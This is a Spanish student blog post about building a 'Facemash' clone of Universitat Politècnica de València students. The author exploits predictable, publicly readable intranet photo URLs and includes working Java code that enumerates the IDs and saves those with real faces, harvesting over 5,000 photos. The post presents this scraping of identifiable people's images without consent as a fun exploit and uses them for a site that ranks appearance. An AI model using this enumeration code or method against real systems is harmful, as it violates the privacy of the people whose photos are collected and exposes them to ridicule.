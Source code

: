 ```yaml
---
layout: post
title:  "FACEMASH UPV"
date:   2015-11-07 13:40:25
categories: facemash
tags: university facebook facemash
image: http://cdn.collider.com/wp-content/uploads/the_social_network_movie_image_andrew_garfield_01.jpg
---
```


##¿Por qué?

- <del>Porque puedo</del>.

Ya que estoy en **segundo curso de informática**, <del>y quería promocionar la aplicación de Calcula Notas</del> , me pareció divertido hacerle un pequeño homenaje al colega [Mark][1] que hizo lo mismo pero con imágenes robadas de perfiles privados, **yo no hice eso luego lo explicare**.

Quería hacerlo lo más parecido al de la peli de [La red social][2] que tanto ponen en las jornadas de acogida:

![La red social](http://dublindigital.ie/wp-content/uploads/2011/02/facemash.jpg)

![FACEMASH UPV](/assets/article_images/about/facemash-image.png)

##¿Como?

Bueno pues fue **muy fácil** ya sabía que se podían ver todas las fotos de la universidad en el **primer año** cuando entré pero ha sido en este segundo curso cuando le vi utilidad.

Bueno si quieres un resumen de **como lo hice** aquí puedes ver la versión divertida:

[![](http://img.youtube.com/vi/f8AuB5hPiCk/0.jpg)](https://www.youtube.com/watch?v=f8AuB5hPiCk)

Ahora en **serio**, pues coges tu foto de perfil miras que la URL es [http://intranet.upv...../numeritos.gif][3] y vas cambiando los números y **¡EUREKA!**, __las imágenes en la upv las puede ver cualquiera__ y **no pasa nada** porque puedes ver la de tus compañeros de clase en la intranet (orlas) etc...

Ahora solo hay que **automatizarlo** y hacer una página html que vaya cambiando las URL's, para hacerlo lo más sencillo posible y que la página sea muy rápida en cargar las fotos como solo hay que cambiar los numeritos, **desarrollé** un programa que vaya aumentando los números y los guarde en un **fichero**, y no tener que encontrar una imagen cada vez que quiera cambiarla, etc...

El problema es que el número es muuuuy **grande** y en la mayoría de combinaciones **no hay imagen** y te sale una gris fea :(.
**Problema solucionado**, cuando no encuentra una imagen de perfil aparece una imagen que siempre es la misma y encima más pequeña con lo que siempre pesa lo mismo (bytes) que más concretamente eran **5372 bytes**, todas las imágenes que fueran distintas de la imagen sin cara pues no lo añado al fichero y ya está.

Total que lo deje un ratito y cuando tenía **5141 números diferentes** lo deje porque sino hay demasiadas caras y la gente no se encuentra! 

El HTML con un poco de <del>sorpresas</del> javascript para que el cliente haga todo el trabajo y sea rapidisimo sin recargas ni nada y se acabó.

Aquí el código mágico:

```java

    // Code for collect facebooks in a file
    public static void main(String[] args) throws IOException {
        int cont = 0;

        for(int i=53177199; i < 99999999; i += 100) {
            PrintWriter printWriter = new PrintWriter(new FileOutputStream("faces", true));
            String urlPath = "https://intranet.upv.es/foto/get/" + i + ".gif";

            URL url = new URL(urlPath);

            InputStream is = url.openConnection().getInputStream();

            byte[] buffer = new byte[8192];
            int bytesRead;
            ByteArrayOutputStream output = new ByteArrayOutputStream();
            while ((bytesRead = is.read(buffer)) != -1)
            {
                output.write(buffer, 0, bytesRead);
            }

            if (output.toByteArray().length != 5372){
                printWriter.write(i + "abc");
                printWriter.close();
                System.out.println(cont++ + " id: "+i);
            }
        }

```

#No pulses la palabra OR


[1]: https://en.wikipedia.org/wiki/Mark_Zuckerberg
[2]: http://www.filmaffinity.com/en/film577699.html
[3]: https://intranet.upv.es/foto/get/52873099.gif